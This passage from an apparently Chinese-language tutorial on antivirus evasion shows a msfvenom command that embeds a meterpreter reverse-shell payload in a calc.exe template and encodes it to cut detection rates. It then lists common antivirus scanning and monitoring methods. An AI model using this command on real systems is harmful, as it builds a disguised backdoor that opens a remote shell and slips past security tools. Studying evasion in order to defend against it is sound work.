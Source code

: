    编码后的木马可能反弹不了shell.

   `string 1.exe` 查看二进制可显示字符。

   在线杀毒网站一检测会反弹shell的特征就会被检测。

3. 利用模板隐藏 shell

   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.43.215 LPORT=4444 -x /root/msf/miansha/calc.exe -k -e cmd/powershell_base64 -i 5 -f exe -o 4.exe
   ```

   * -e <encoders>  指定编码器
   * -i    编码次数
   * -x    指定模板
   * -k   保留模板原有功能，将payload作为一个新的线程来注入，但不能保证可以用在所有可执行程序上。

   [![BMbE4S.md.png](https://s1.ax1x.com/2020/10/27/BMbE4S.md.png)](https://imgchr.com/i/BMbE4S)

 可以看到被检测为后门的数量降低了，说明还是有一点效果的。

## 六、杀毒软件检测方式

#### 6.1 杀毒常见扫描方式

> 1、扫描压缩包技术：即是对压缩包案和封装文件作分析检查的技术。
>
> 2、程序窜改防护：即是避免恶意程序借由删除杀毒侦测程序而大肆破坏电脑。
>
> 3、修复技术：即是对恶意程序所损坏的文件进行还原
>
> 4、急救盘杀毒：利用空白U盘制作急救启动盘，来检测电脑病毒。
>
> 5、智能扫描：扫描最常用的磁盘，系统关键位置，耗时较短。
>
> 6、全盘扫描：扫描电脑全部磁盘，耗时较长。
>
> 7、勒索软件防护：保护电脑中的文件不被黑客恶意加密。
>
> 8、开机扫描：当电脑开机时自动进行扫描，可以扫描压缩文档和可能不需要的程序

#### 6.2 监控技术

> 1、内存监控：当发现内存中存在病毒的时候，就会主动报警；监控所有进程；监控读取到内存中的文件；监控读取到内存的网络数据。
>
> 2、文件监控：当发现写到磁盘上的文件中存在病毒，或者是被病毒感染，就会主动报警。
>
> 3、邮件监控：当发现电子邮件的附件存在病毒时进行拦截。
>
> 4、网页防护：阻止网络攻击和不安全下载。
>
> 5、行为防护：提醒用户可疑的应用程序行为。

##  七、扫描引擎
